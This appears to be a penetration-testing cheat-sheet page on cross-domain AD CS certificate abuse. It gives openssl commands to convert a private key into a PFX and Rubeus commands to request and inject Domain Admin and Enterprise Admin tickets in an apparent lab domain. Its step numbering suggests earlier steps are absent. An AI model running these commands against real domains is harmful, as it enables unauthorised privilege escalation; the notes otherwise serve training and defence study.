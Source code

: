# 🟢 AD CS

#### Cross Domain Attacks in Active Directory Certificate Services (AD CS)

Cross-domain attacks in AD CS exploit vulnerabilities in the configuration or implementation of Active Directory Certificate Services. AD CS is used to manage certificates for network security, including the authentication of users, computers, and services.&#x20;

The attacks aim to escalate privileges across domain boundaries, potentially allowing an attacker to gain unauthorized access to resources or perform actions with elevated privileges.

**Key Points:**

* **PKI Misconfiguration:** Attackers can exploit poorly configured Public Key Infrastructures (PKIs), leading to unauthorized certificate issuance.
* **Certificate Template Vulnerabilities:** Abuse of misconfigured certificate templates can allow attackers to issue certificates for themselves with elevated privileges.
* **Escalation of Privilege:** Attackers may use these vulnerabilities to escalate from a low-privileged user to higher-level administrative privileges across domains.
* **Defense Strategies:** Regularly audit AD CS configurations, limit the rights to manage CA and certificate templates, and implement monitoring for unusual certificate issuance activities.

#### Change the RSA into a PFX

> Paste the Private key in a file named : _cert.pem_

```
# linux
# openssl and provide a password
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```
# windows
# openssl and provide a password
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

#### 4. Request a TGT with the pfx

```
# Rubeus
# Request DA TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request EA TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```

\


{% embed url="https://www.youtube.com/watch?v=ejmAIgxFRgM" %}
